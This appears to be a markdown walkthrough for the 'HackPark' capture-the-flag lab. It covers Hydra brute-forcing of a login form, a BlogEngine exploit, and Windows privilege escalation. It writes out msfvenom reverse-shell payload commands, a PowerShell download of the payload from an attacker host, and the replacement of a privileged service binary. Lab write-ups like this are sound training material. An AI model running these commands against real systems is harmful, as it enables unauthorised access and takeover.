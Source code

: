 # HackPark

### Deploy the vulnerable Windows machine

This room will cover brute-forcing an accounts credentials, handling public exploits, using 
the Metasploit framework and privilege escalation on Windows.

**What's the name of the clown displayed on the homepage?**

Use a reverse image search to find the clowns name

### Using Hydra to brute-force a login

**What request type is the Windows log in form using?**

Navigate to the log in page inspect the log in form to find the HTTP method used.

**Guess a username, choose a password wordlist and gain credentials to a user account!**

Enumerate potential accounts with password retrieval page. Inspect the log in form, change 
to the network tab in your browser and log in with any credentials. Look at the raw payload 
string to work out the hydra http-post-form input and run it. 

`hydra -l <USERNAME> -P /usr/share/wordlists/<WORDLIST> <IP> http-post-form "<PAGE>:<ANY-OTHER-PARAMS>&<USER-PARAM>=^USER^&<PASS-PARAM>=^PASS^:<FAILURE-STRING>"`

Log in with the brute-forced credentials

### Compromise the Machine

**Are you able to identify the version of the BlogEngine?**

Navigate to the about page and find the BlogEngine version there.

**What is the CVE?**

Use [exploit-db](http://www.exploit-db.com/) to find an exploit for BlogEngine

**Who is the blog server running as?**

After gaining acces to the server, run `whoami` to find the username

### Windows Privilege Escalation

Generate a reverse shell payload with msfvenom and upload it to the target

`msfvenom windows/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -a x86 -f exe -o <SHELL-NAME>.exe`

`python3 -m http.server <PORT>`

`powershell Invoke-WebRequest -Uri http://<ATTACKER-IP>:<PORT>/path/to/payload/<SHELL-NAME>.exe -Outfile <SHELL-NAME>.exe`

Make sure to upload the payload to a directory the user has access to like C:\Users\Public

Start the meterpreter shell and catch it with the multi/handler.

*Note: Windows-exploit-suggester runs with python 2.7 which is no longer supported. The 
steps to get it working involve downgrading pip packages and is not recommended. WinPEAS is 
an excellent alternative, although it runs on the target.*

**What is the OS version of this windows machine?**

Run sysinfo on the meterpreter shell and enumerate the target.

**What is the name of the abnormal service running?**

Upload winPEAS to the the target and execute it, redirecting the output to a txt file for 
easy viewing. Search for services in the results and find the abnormal service.

**What is the name of the binary you're supposed to exploit?**

Use `sc qc <SERVICE-NAME>` to query the abnormal service and find the binary path name. 
Navigate to that path and look for event logs. The logs will show a binary running with 
Admistrator privileges.

Escalate privileges by replacing the current binary being executed by the WindowsScheduler 
service. Create a payload with msfvenom, upload it to the target and replace the existing binary with the malicious verison. Start a multi/handler to catch the shell.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<ATTACKER-IP> LPORT=<PORT> -f exe -o <BINARY-TO-REPLACE>.exe`

**What is the user flag (on Jeff's Desktop)?**

Find the user flag with meterpreter's search command and read it with cat or drop into a 
shell and navigate to Jeff's Desktop and read it with type.

**What is the root flag?**

Same as before, find the root flag with meterpreter's search command and read it with cat or 
drop into a shell and navigate to the Administrator's Desktop and read it with type.

### Privilege Escalation Without Metasploit

Generate a reverse shell payload with msfvenom

`msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -f exe -o <BINARY-TO-REPLACE>.exe`

Start a python http.server and download the payload on the target 
`powershell Invoke-WebRequest -Uri <ATTACKER-IP>:<HTTP.SERVER-PORT>/path/to/payload -Outfile C:\Windows\Temp\payload.exe`

Download winPEAS.bat as above and run it on the target, redirecting output to a file.

Using the results from winPEAS, escalate privileges to Administrator.

**Using winPeas, what was the Original Install time (date and time)?**

Search the winPEAS results for Original Install to find the date and time.
